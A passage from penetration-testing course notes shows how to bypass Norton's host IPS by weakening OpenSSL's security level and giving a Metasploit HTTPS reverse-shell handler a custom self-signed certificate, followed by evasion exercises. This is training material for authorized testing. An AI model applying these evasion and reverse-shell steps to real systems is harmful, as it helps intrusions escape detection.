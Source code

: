 > Listing 7 - openssl.cnf settings - old

We will remove the "@SECLEVEL=2" string, as the _SECLEVEL_[9](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5265-9) option limits the usable hash and cypher functions in an SSL or TLS connection. We'll set this to "DEFAULT", which allows all.

The new configuration should be set according to the listing below.

```
CipherString=DEFAULT
```

> Listing 8 - openssl.cnf settings - new

Finally, we'll configure Metasploit to use our newly-created certificate through the _HandlerSSLCert_ option, which we'll set to the path of our nasa.pem file. Once this is set, we'll restart our listener.

```
msf5 exploit(multi/handler) > set HandlerSSLCert /home/kali/self_cert/nasa.pem
handlersslcert => /home/kali/self_cert/nasa.pem

msf5 exploit(multi/handler) > exploit

[*] Started HTTPS reverse handler on https://192.168.119.120:4443
```

> Listing 9 - Configuring HandlerSSLCert for Meterpreter

Let's re-enable Norton's host-based IPS, reload the web page, and view the certificate in our browser:

![[OffSec/OSEP/Course/z. images/d6ce995f4d558beb01152111db039fe5_MD5.jpg]]

Figure 22: Our self signed certificate as seen on the victim

Although the browser still complains about the self-signed certificate, our newly-created "NASA" certificate bypassed Norton's IPS. This confirms that Norton was, in fact, flagging Meterpreter's "randomized" certificate field data.

In a real-world engagement, we might consider using more sensibly-customized field data, but regardless of the actual field data, we can use simple changes like this to bypass some IPS software.

This example highlights the shortcomings of signature-based IPS sensors.

#### Exercises

1. Repeat the previous steps to bypass Norton's HIPS sensor.
2. Use the impersonate_ssl module in Metasploit to bypass Norton HIPS.
3. Norton doesn't block Empire's default HTTPS shell. Why is this? Consider the steps we took in this section to determine the reason.
4. If you own a domain, obtain a valid SSL certificate from Let's Encrypt's free service.

1

(NortonLifeLock Inc., 2020), [https://us.norton.com/360](https://us.norton.com/360) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5265-1)
